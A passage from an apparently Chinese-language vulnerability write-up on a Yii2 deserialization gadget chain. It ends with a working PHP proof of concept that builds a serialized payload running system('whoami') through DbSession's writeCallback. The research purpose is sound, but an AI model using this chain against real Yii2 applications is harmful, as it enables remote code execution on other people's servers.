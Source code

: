 跟进composeFields()

![image-20210804104401798](images/24.png)

这里就可以通过$this->writeCallback来回调之前找到的run方法来rce

其实我开始想通过这个call_user_func直接rce的,但是这个$this不可控

我就只能将$this->writeCallback赋值为一个数组,来实例化一个对象调用其中的危险函数再rce了

不能call_user_func['system','whoami']

因为这样是调用system类的whoami函数

call_user_func('system','whoami'),这样才是回调system()函数将whoami作为参数

所以这里我就只有回调第一条链子找到的无参的run方法

poc4

```
<?php
namespace yii\rest {
    class Action
    {
        public $checkAccess;
    }
    class IndexAction
    {
        public function __construct($func, $param)
        {
            $this->checkAccess = $func;
            $this->id = $param;
        }
    }
}
namespace yii\web {
    use yii\rest\IndexAction;
    abstract class MultiFieldSession
    {
        public $writeCallback;
    }
    class DbSession extends MultiFieldSession
    {
        public function __construct($func, $param)
        {
            $this->writeCallback = [new IndexAction($func, $param), "run"];
        }
    }
}
namespace yii\db {
    use yii\web\DbSession;
    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct($func, $param)
        {
            $this->_dataReader = new DbSession($func, $param);
        }
    }
}
namespace {
    $exp = new yii\db\BatchQueryResult('system', 'whoami');
    echo(base64_encode(serialize($exp)));
}
```
